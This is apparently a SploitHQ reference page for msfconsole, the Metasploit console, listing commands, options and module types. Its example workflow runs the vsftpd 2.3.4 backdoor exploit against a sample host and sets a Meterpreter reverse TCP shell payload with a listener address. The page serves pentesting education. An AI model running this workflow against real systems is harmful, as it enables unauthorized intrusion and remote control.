 # msfconsole – Metasploit Framework Console Interface

**msfconsole** is the primary command-line interface to the **Metasploit Framework**, a powerful platform for developing, testing, and executing exploits against remote targets. It provides access to thousands of modules, including exploits, payloads, post-exploitation tools, scanners, and more.

🔗 [Explore msfconsole Usage on SploitHQ](https://sploithq.com/metasploit)

---

## 🔍 What Is msfconsole?

- Core interface to the Metasploit Framework
- Supports scripting, automation, and interactive shell usage
- Enables launching exploits, creating payloads, and managing sessions
- Ideal for red teaming, pentesting, and vulnerability validation

---

## ⚙️ Basic Usage

```bash
msfconsole
```

Once inside the console, you can search, configure, and run modules interactively.

---

## 🧰 Common Commands

| Command                        | Description                                      |
|-------------------------------|--------------------------------------------------|
| `search <term>`               | Search for exploits, payloads, or modules        |
| `use <module_path>`           | Load a module (e.g., exploit/windows/smb/ms17_010_eternalblue) |
| `info`                        | Show detailed info about a loaded module         |
| `set <option> <value>`        | Set required options (e.g., RHOSTS, PAYLOAD)     |
| `run` or `exploit`            | Launch the exploit                              |
| `sessions`                    | List active sessions                            |
| `background`                  | Background the current session                  |
| `exit`                        | Quit the msfconsole                             |

---

## 🧪 Example Workflow

```bash
msfconsole
```

```text
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.100
set RPORT 21
run
```

---

## 🔥 Payload Example

Set a reverse shell payload:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
```

---

## 📦 Module Types

- `exploit/` – Attack modules
- `auxiliary/` – Scanners, fuzzers, etc.
- `payload/` – Shellcode and Meterpreter payloads
- `post/` – Post-exploitation tools
- `encoder/` – Payload obfuscation
- `nop/` – No-operation generators

---

## ⚙️ Useful Options

| Option           | Description                                 |
|------------------|---------------------------------------------|
| `-q`             | Quiet mode (no banner)                      |
| `-r <script.rc>` | Run commands from a resource script         |
| `-x "<cmd>"`     | Execute a single command and exit           |
| `-h`             | Show help                                   |

---

## 🌐 SploitHQ Metasploit Guide

👉 [Launch Your First Exploit with msfconsole](https://sploithq.com/metasploit)

- Step-by-step exploit examples
- Post-exploitation tips
- Meterpreter and persistence tricks

---

## 🔗 Useful Links

- [Metasploit Framework GitHub](https://github.com/rapid7/metasploit-framework)
- [Metasploit Unleashed (OffSec)](https://www.offensive-security.com/metasploit-unleashed/)
- [SploitHQ msfconsole Page](https://sploithq.com/msfconsole)

---

## 📄 License

Metasploit is open source and maintained by Rapid7 under a BSD-style license.  
This documentation is provided by [SploitHQ](https://sploithq.com) for educational and authorized testing purposes only.

